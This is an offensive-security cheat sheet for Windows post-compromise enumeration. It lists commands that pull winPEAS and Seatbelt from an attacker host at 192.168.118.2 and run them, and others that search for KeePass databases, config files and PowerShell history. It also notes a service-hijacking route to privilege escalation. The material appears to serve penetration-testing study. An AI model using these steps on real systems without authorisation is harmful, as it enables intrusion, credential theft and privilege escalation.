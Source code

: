 ## Windows Enumeration
Having gained a foothold on a Windows machine by whatever mechanism the following items are important steps for us to gain situational awareness, with each item potentially proving critical to a successful effort at privilege escalation or lateral movement:

### winPEAS
Below is a lengthy list of commands that you can make use of in the event that `winPEAS` & `seatbelt` are impossible to smuggle onto the machine or are blocked via AV somehow. But under most circumstances lets not be cringe and use the purpose-built tool to enumerate a Windows environment:

In Kali:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
On the target machine:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```

For `Seatbelt` search for `compiled seatbelt github download`, and grab the `Seatbelt.exe` file.
Transfer to target in the usual fashion:
```bash
python3 -m http.server 80
```
And run on the target:
```powershell
iwr -uri http://192.168.118.2/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

Look upon our exploitable shit ye mighty and despair!

### Username and hostname
```cmd
whoami
```
### Group memberships of the current user
```cmd
whoami /groups
```
### Existing users and groups
```powershell
Get-LocalUser
```
```powershell
Get-LocalGroup
```
```powershell
Get-LocalGroupMember adminteam
```
```powershell
Get-LocalGroupMember Administrators
```
CMD command for miscllelaneous info on a particular user:
```cmd
net user <username>
```
### Operating system, version and architecture
```powershell
systeminfo
```
### Network information
To list all network interfaces:
```powershell
ipconfig /all
```
To display the routing table and potentially enumerate links to other systems or networks that haven't yet been enumerated:
```powershell
route print
```
To enumerate the active network connections on a Windows system (with no DNS resolution):
```powershell
netstat -ano
```
### Installed applications
To enumerate all 32 bit applications installed on the machine:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
and for the 64 bit applications:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Nb. this is not necessarily a complete list, never forget to check the `C:\ProgramFiles*` directories, as well as the `C:\tools` and `Downloads` paths.
### Running processes
```powershell
Get-Process
```
To find the binary running that process:
```powershell
Get-Process | Select-Object Path
```
### Finding Critical Files
KeePass files:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
XAMPP Web Server config:
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Misc. Data File Discovery:
```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

### Impersonation
If we have a GUI session then we can run a new session as a different user with:
```powershell
runas /user:admin cmd
```

### Command History
```powershell
Get-History
```
```powershell
(Get-PSReadlineOption).HistorySavePath | ForEach-Object {cat $_}
```

### Installed Windows Services
Necessary to run this in an RDP session since `Get-CimInstance` (and `Get-Service` for that matter) will produce permission denied errors in a shell or WinRM session:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
Get starting mode of a win32 service, in the event we can't restart it and this value is set to `Auto` then a system reboot could let us hijack the service having previously edited the executable:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<target service>'}
```

### icacls
Enumerate which users/groups have what privileges on a binary (nb. beneficial to use `icacls` over `Get-ACL` since the former will work on `cmd` as well!):
```powershell
icacls "C:\path\to\interesting.exe"
```
Mask to permissions mapping:

- F 	Full access
- M 	Modify access
- RX 	Read and execute access
- R 	Read-only access
- W 	Write-only access